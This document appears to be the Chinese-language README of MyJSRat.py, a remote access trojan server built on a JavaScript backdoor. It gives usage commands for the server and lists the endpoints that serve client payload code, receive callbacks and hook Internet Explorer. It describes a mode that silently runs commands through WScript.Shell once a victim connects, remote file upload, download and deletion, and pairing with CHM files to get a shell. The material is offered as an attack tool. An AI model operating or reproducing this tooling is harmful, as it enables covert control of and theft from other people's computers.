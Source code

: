 # MyJSRat.py
## 0x00 JSbackdoor
关于javascript backdoor 请查看：

[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)

[JavaScript Phishing](http://drops.wooyun.org/tips/12386)

[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：

![Alt text](./1459259057997.png)

脚本修改分为两个模式，交互模式以及执行命令模式。

*交互模式命令如下*：

```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

*执行命令模式命令如下*：

```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：

![Alt text](./1459259883470.png)

命令发送：

![Alt text](./1459260010566.png)

## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE

## 0x03 实际利用

CHM + JSRAT = Getshell

![Alt text](./getshell.gif)

Detail : [chm_backdoor](http://evi1cg.me/archives/chm_backdoor.html)





